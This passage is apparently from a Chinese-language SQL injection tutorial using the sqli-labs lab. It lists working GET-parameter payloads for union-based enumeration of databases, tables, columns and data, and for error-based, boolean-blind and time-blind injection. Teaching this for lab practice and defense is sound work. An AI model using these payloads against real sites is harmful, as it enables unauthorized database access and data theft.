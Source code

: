 #### 四、注入方法与注入步骤

​       这里只用GET注入来举例了，POST，cookie，user-agent等与其只是注入地点不同，方法基本一致。

+ 普通注入

  ​	步骤：先判断注入类型(以在sqli-labs上为例)

  ```
  ?id=1
  ?id=1 and 1=2    //错误则存在数字型注入
  ?id=1'
  ?id=1' --+		//若上一个出错，而现在正确则存在‘的字符型注入
  (也可能有“，’）等包裹的字符型注入，同上判断)
  ```

  ​		判断字段长度：

  ```
  ?id=1 order by x  (x=1,2,3...)
  ```

  ​		判断回显位置：(假设有3个字段)

  ```
  ?id=-1 union select 1,2,3
  ```

  ​		查询数据库名，表名，列名，数据：(以回显位置在2，3)

  ```
  ?id=-1 union select 1,database(),3   //数据库名
  ?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3		//表名
  ?id=-1 union select 1,(select group_concat(column_name) from information_shcema.columns where table_name='表名'),3		//列名
  ?id=-1 union select 1,(select group_concat(要查询的数据) from 数据库名.表名),3		//数据
  ```

+ 报错注入

  ​	这里不会回显正确的查询内容，但是会返回具体的报错内容，所以采用报错注入。

  ```
  ?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+
  ```

+ 布尔盲注

  ​	即不显示正确的查询内容，也不显示具体报错，只有正确和错误时返回的页面不同，采用布尔盲注。

  ```
  ?id=1' and length(database())>1 --+
  ```

+ 延时盲注

  ​	页面不管对错都没有变化，使用延时注入通过页面返回时间进行判断。

  ```
  ?id=1' and if(length(database())>1,1,sleep(5)) --+
  ```

